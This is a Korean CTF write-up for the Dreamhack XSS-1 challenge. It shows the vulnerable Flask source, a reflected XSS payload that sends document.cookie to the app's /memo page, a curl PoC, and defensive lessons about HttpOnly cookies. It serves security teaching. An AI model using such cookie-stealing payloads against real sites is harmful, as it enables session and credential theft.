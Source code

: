```yaml
---
title: "[CTF] 드림핵 XSS-1"
date: 2025-09-18 18:05:00 +0900
categories: [CTF, Web]
tags: [CTF, XSS]
description: "드림핵 XSS-1"
toc: true
---
```


## 문제 개요
문제는 플라스크로 구현된 간단한 웹앱이었고, 내부에서 셀레니움을 돌려서 특정 URL을 방문시키는 로직이 있었다. `/vuln`, `/memo`, `/flag` 세 페이지를 확인했을 때 취약점은 명확했다.

- `/vuln?param=...` : param 값을 검증/이스케이프 없이 그대로 출력 (반사형 XSS 가능)
- `/memo?memo=...` : 전달된 memo 값을 누적해서 저장하고 출력
- `/flag` : POST로 받은 `param`을 내부 함수로 셀레니움 봇에게 전달 (봇은 `flag` 쿠키를 가지고 있음)

아래는 문제에서 제공된 **원본 소스코드 전체**다.

```python
#!/usr/bin/python3
from flask import Flask, request, render_template
from selenium import webdriver
from selenium.webdriver.chrome.service import Service
import urllib
import os

app = Flask(__name__)
app.secret_key = os.urandom(32)

try:
    FLAG = open("./flag.txt", "r").read()
except:
    FLAG = "[**FLAG**]"


def read_url(url, cookie={"name": "name", "value": "value"}):
    cookie.update({"domain": "127.0.0.1"})
    try:
        service = Service(executable_path="/chromedriver")
        options = webdriver.ChromeOptions()
        for _ in [
            "headless",
            "window-size=1920x1080",
            "disable-gpu",
            "no-sandbox",
            "disable-dev-shm-usage",
        ]:
            options.add_argument(_)
        driver = webdriver.Chrome(service=service, options=options)
        driver.implicitly_wait(3)
        driver.set_page_load_timeout(3)
        driver.get("http://127.0.0.1:8000/")
        driver.add_cookie(cookie)
        driver.get(url)
    except Exception as e:
        driver.quit()
        # return str(e)
        return False
    driver.quit()
    return True


def check_xss(param, cookie={"name": "name", "value": "value"}):
    url = f"http://127.0.0.1:8000/vuln?param={urllib.parse.quote(param)}"
    return read_url(url, cookie)


@app.route("/")
def index():
    return render_template("index.html")


@app.route("/vuln")
def vuln():
    param = request.args.get("param", "")
    return param


@app.route("/flag", methods=["GET", "POST"])
def flag():
    if request.method == "GET":
        return render_template("flag.html")
    elif request.method == "POST":
        param = request.form.get("param")
        if not check_xss(param, {"name": "flag", "value": FLAG.strip()}):
            return '<script>alert("wrong??");history.go(-1);</script>'

        return '<script>alert("good");history.go(-1);</script>'


memo_text = ""


@app.route("/memo")
def memo():
    global memo_text
    text = request.args.get("memo", "")
    memo_text += text + "\n"
    return render_template("memo.html", memo=memo_text)


app.run(host="0.0.0.0", port=8000)
```

---

## 내가 실제로 푼 방법
문제를 보자마자 `/vuln`이 사용자 입력을 그대로 반환하는 걸 확인했고, `/flag`가 내부적으로 셀레니움으로 `/vuln?param=...` 을 호출함을 발견했다. 또한 그 셀레니움 봇은 `flag` 쿠키를 가지고 있었다(코드 `driver.add_cookie({"name": "flag", "value": FLAG.strip(), ...})`).

즉, 반사형 XSS로 `document.cookie`를 읽어 `/memo`에 전송하도록 만들면, 서버가 그 내용을 저장하므로 FLAG를 얻을 수 있다는 결론에 이르렀다.

### 내가 사용한 페이로드
```html
<script>location.href="/memo?memo="+document.cookie;</script>
```

### PoC 요청
```bash
curl -X POST -F 'param=<script>location.href="/memo?memo="+document.cookie;</script>' http://TARGET:8000/flag
```

설명:
- `/flag`로 POST하면 서버는 내부 `check_xss`를 호출하고, `check_xss`는 `urllib.parse.quote(param)`로 인코딩한 param을 `/vuln` URL에 넣어서 셀레니움 봇을 호출한다.
- 봇은 `flag` 쿠키가 설정된 상태로 `/vuln?param=<payload>` 를 열기 때문에, 페이지에서 스크립트가 실행되면 `document.cookie`는 FLAG 값을 포함하고, 스크립트는 `/memo?memo=<document.cookie>`로 리다이렉트해서 서버에 기록한다.
- 최종적으로 `/memo` 페이지에서 FLAG 내용을 확인했다.

---

## 재현 흐름
1. 공격자: `POST /flag` with `param=<스크립트>`  
2. 서버: `check_xss` → `read_url` → 셀레니움 실행 → `driver.add_cookie({"name":"flag","value":FLAG})` → `driver.get("/vuln?param=<payload>")`  
3. 봇(헤드리스 크롬): `/vuln` 페이지에서 `<script>location.href="/memo?memo="+document.cookie;</script>` 실행  
4. 봇: `/memo?memo=flag=<FLAG>` 호출 → 서버의 `memo_text`에 FLAG 저장  
5. 공격자: `/memo`에서 FLAG 확인

---

## 왜 이게 가능했나
- **반사형 XSS**: `/vuln`이 입력값에 대해 어떠한 이스케이프도 수행하지 않아 스크립트가 그대로 실행되었다.
- **봇의 쿠키 설정**: 서버가 봇에게 `flag` 쿠키를 설정했으며, 이 쿠키는 HttpOnly가 아니어서 자바스크립트로 읽을 수 있었다.
- **서버 설계 결함**: 외부에서 들어온 `param`을 검증 없이 내부 봇에 그대로 전달했다.

---

## 마무리
이 문제는 전형적인 반사형 XSS + 내부 자동화(봇)를 결합한 케이스였다. 원리는 단순하지만, 자동화된 브라우저가 민감한 값을 클라이언트 쿠키로 가지고 있다는 점이 굉장히 위험했다. 실전에서는 **민감값을 HttpOnly 쿠키에 보관**하거나 **자동화 브라우저가 외부 입력을 임의로 열지 않도록** 설계해야 한다.

---
